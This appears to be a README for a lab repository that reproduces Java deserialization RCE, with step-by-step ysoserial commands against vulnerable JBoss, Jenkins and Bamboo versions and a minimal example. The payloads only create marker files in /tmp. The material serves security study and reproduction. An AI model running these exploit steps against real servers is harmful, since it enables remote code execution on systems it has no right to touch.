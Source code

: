 Here there are practical examples of the - deserialization of untrusted objects - vulnerability.

These PoCs use the ysoserial tool to generate exploits.

# Pocs

Minimal Example
---------------------------------
- Use java 8
- cd MinimalExample
- java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
- cp ./exploit.sh /tmp
- chmod +x /tmp/exploit.sh
- javac Employee.java
- javac DeSerializingObject.java
- java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE-2016-7065)
---------------------------------


- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Check if you have installed the JDK 1.8
- Run jboss: java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"



Jenkins (CVE-2015-8103)
---------------------------------

- Download a vulnerable version of Jenkins (in this case you can find the v1.649
- Check if you have installed the JDK 1.8
- java -jar ./jenkins-war-1.649.war
- java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"



Bamboo (CVE-2015-6576)
---------------------------------

- Download and install openjdk 1.7
	sudo add-apt-repository ppa:openjdk-r/ppa  
	sudo apt-get update   
	sudo apt-get install openjdk-7-jdk  
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
	java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser 
  or use the payload inside the folder JBoss


# Stacktraces
https://github.com/EdoardoVignati/ysoserial/tree/master/analyze

See the webpage on https://rawgit.com/EdoardoVignati/ysoserial/master/analyze/index.html

# References and readings
https://github.com/EdoardoVignati/ysoserial/blob/master/biblio.bib

Other references:

https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478

https://askubuntu.com/questions/761127/how-do-i-install-openjdk-7-on-ubuntu-16-04-or-higher


# Defenses
https://link.springer.com/chapter/10.1007/978-3-030-00470-5_21


